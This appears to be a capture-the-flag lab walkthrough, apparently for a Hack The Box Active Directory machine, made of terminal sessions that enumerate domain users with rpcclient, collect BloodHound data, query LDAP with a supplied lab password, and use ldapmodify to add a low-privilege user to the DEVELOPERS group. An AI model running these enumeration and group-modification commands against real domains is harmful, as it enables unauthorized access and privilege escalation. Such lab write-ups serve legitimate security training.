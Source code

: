 ```bash
en samba habia politicas que se han estado analizando
```
```bash
└─# rpcclient -U levi.james%KingofAkron2025! -W puppy.htb 10.10.11.70


```rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[levi.james] rid:[0x44f]
user:[ant.edwards] rid:[0x450]
user:[adam.silver] rid:[0x451]
user:[jamie.williams] rid:[0x452]
user:[steph.cooper] rid:[0x453]
user:[steph.cooper_adm] rid:[0x457]
```
```bash
└─# ntpdate puppy.htb
2025-07-11 13:06:14.736452 (-0400) +25200.486878 +/- 0.026779 puppy.htb 10.10.11.70 s1 no-leap
CLOCK: time stepped by 25200.486878
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/THM/Puppy]
└─# bloodhound-python -u 'levi.james' -p 'KingofAkron2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.puppy.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 11S
INFO: Compressing output into 20250711060801_bloodhound.zip
```
```bash
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=levi.james)"
# extended LDIF
#
# LDAPv3
# base <DC=puppy,DC=htb> with scope subtree
# filter: (sAMAccountName=levi.james)
# requesting: ALL
#

# Levi B. James, MANPOWER, PUPPY.HTB
dn: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Levi B. James
sn: James
givenName: Levi
initials: B
distinguishedName: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
instanceType: 4
whenCreated: 20250219121056.0Z
whenChanged: 20250711141817.0Z
displayName: Levi B. James
uSNCreated: 12798
memberOf: CN=HR,DC=PUPPY,DC=HTB
uSNChanged: 172196
name: Levi B. James
objectGUID:: 2UDSk6IBfU2UQ8vUlLk8rg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 133862719957678511
lastLogoff: 0
lastLogon: 133967278104209708
pwdLastSet: 133844406569969717
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHTwQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: levi.james
sAMAccountType: 805306368
managedObjects: OU=MANPOWER,DC=PUPPY,DC=HTB
userPrincipalName: levi.james@PUPPY.HTB
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
dSCorePropagationData: 20250509173106.0Z
dSCorePropagationData: 20250219131504.0Z
dSCorePropagationData: 16010101000416.0Z
lastLogonTimestamp: 133967170971710058
msDS-SupportedEncryptionTypes: 0

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```
```bash
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=developers)" dn
# extended LDIF
#
# LDAPv3
# base <DC=puppy,DC=htb> with scope subtree
# filter: (sAMAccountName=developers)
# requesting: dn 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```
```bash
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB

└─# ldapmodify -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -f mod.ldif
modifying entry "CN=DEVELOPERS,DC=PUPPY,DC=HTB"

└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "CN=DEVELOPERS,DC=PUPPY,DC=HTB" member
# extended LDIF
#
# LDAPv3
# base <CN=DEVELOPERS,DC=PUPPY,DC=HTB> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/THM/Puppy]
└─# ldapmodify -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -f mod.ldif                           
modifying entry "CN=DEVELOPERS,DC=PUPPY,DC=HTB"

                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/THM/Puppy]
└─# nano mod.ldif 
                                                                                                                    
┌──(root㉿kali)-[~/THM/Puppy]
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "CN=DEVELOPERS,DC=PUPPY,DC=HTB
# extended LDIF
#
# LDAPv3
# base <CN=DEVELOPERS,DC=PUPPY,DC=HTB> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
